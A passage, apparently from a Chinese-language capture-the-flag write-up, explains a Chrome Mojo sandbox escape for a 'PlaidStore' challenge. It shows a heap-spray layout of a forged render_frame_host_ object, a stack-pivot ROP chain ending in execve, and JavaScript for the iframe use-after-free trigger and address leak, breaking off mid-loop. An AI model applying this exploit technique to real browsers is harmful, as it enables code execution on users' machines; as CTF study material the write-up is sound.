 利用堆喷获得原render_frame_host_ 结构的堆块，并填充为伪造的 render_frame_host_ 结构，构造的内容如下：

```c
frame_addr =>   [0x00] : vtable  ==> frame_addr + 0x10  ----
				[0x08] : 0x0                               | 
new rsp	==>		[0x10] : 0xdeadbeef  ==> rbp <-------------|    
                [0x18] : gadget => pop rdi; ret;           
            /-- [0x20] : frame_addr + 0x180 
            |   [0x28] : gadget => pop rax; ret;                    
            |   [0x30] : gadget => SYS_execve                      
            |   [0x38] : gadget => xor rsi, rsi; pop rbp; jmp rax   
            |   [0x40] : 0xdeadbeef
            |   ...                                                 
            |   [0x160 + 0x10] : xchg rax, rsp; clc; pop rbp; ret;    <= isRenderFrameLive
            |   [0x160 + 0x18] : 
            -> 	[0x180 ... ] : "/home/chrome/flag_printer"
```

因为rax存的是vtable的地址值，此时被填充为 `frame_addr+0x10`，所以 `call   QWORD PTR [rax+0x160]`时会调用`frame_addr+0x10+0x160` 保存的地址，即rop链的入口：`xchg rax, rsp; clc; pop rbp; ret;` 进行栈迁移，此时rsp填充为`frame_addr + 0x10` , 然后 `pop rbp`, 将0xdeadbeef pop 进 rbp。ret 后 rsp指向 [0x18] 执行gadget ：`pop rdi`, 将执行参数地址给rdi，`pop rax` 将execve@plt 给rax，最后跳转到rax，执行：

```c
execve("/home/chrome/flag_printer",rsi,env);
```

#### （3） 构造UAF，触发执行

a、首先创建一个iframe：

```javascript
var allocateFrame = () =>{
			var frame = document.createElement("iframe");
			frame.src = "/iframe.html"
			document.body.appendChild(frame);
			return frame;
		}
```

和之前泄露chrome 基地址类似，泄露iframe的 render_frame_host_ 地址，这部分的代码在iframe.html 中：

```html
<!DOCTYPE html>
<html>
    <head>
    </head>
    <body>
        <script src="mojo/public/js/mojo_bindings_lite.js"></script>
        <script src="third_party/blink/public/mojom/plaidstore/plaidstore.mojom-lite.js"></script>
	<script>
	async function leak() {
		//Same code with the one in pwn.js
		console.log("Starting frame leak");
		var stores = [];
		let p = blink.mojom.PlaidStore.getRemote(true);
		for(let i = 0;i< 0x40; i++ ){
			await p.storeData("yeet"+i,new Uint8Array(0x28).fill(0x41));
			stores[i] = blink.mojom.PlaidStore.getRemote(true);
		}
		let chromeBase = 0;
		let renderFrameHost = 0;
		for(let i = 0;i<0x40&&chromeBase==0;i++){
			let d = (await p.getData("yeet"+i,0x200)).data;
			let u8 = new Uint8Array(d)
			let u64 = new BigInt64Array(u8.buffer);
			for(let j = 5;j<u64.length;j++){
				let l = u64[j]&BigInt(0xf00000000000)
```